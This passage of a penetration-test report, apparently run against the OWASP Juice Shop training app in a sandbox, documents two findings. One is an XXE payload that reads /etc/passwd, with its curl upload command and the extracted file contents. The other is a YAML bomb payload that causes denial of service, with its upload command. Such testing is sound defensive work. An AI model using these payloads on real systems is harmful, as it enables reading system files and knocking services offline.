**Prerequisites:**
Valid JWT authentication token

**Exploitation Steps:**

1. Create XML file with external entity payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

2. Upload malicious XML file:
```bash
curl -X POST "http://juice-shop.sandbox.local:3001/file-upload" \
  -H "Authorization: Bearer [TOKEN]" \
  -F "file=@xxe_test.xml"
```

**Proof of Impact:**
Successfully extracted `/etc/passwd` file contents:
```
root:x:0:0:root:/root:/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/sbin/nologin
nonroot:x:65532:65532:nonroot:/home/nonroot:/sbin/nologin
```

**Notes:**
XXE vulnerability confirmed via libxml.parseXml() with noent: true configuration enabling external entity processing.

### INJ-VULN-07: YAML Injection DoS

**Summary:**
- **Vulnerable location:** POST /file-upload (YAML file content)
- **Overview:** YAML bomb attack causing resource exhaustion
- **Impact:** Denial of service through memory exhaustion
- **Severity:** Medium

**Prerequisites:**
Valid JWT authentication token

**Exploitation Steps:**

1. Create YAML bomb file with anchor references:
```yaml
a: &a ["x","x","x","x","x"]
b: &b [*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b]
```

2. Upload YAML bomb:
```bash
curl -X POST "http://juice-shop.sandbox.local:3001/file-upload" \
  -H "Authorization: Bearer [TOKEN]" \
  -F "file=@yaml_bomb.yml"
```
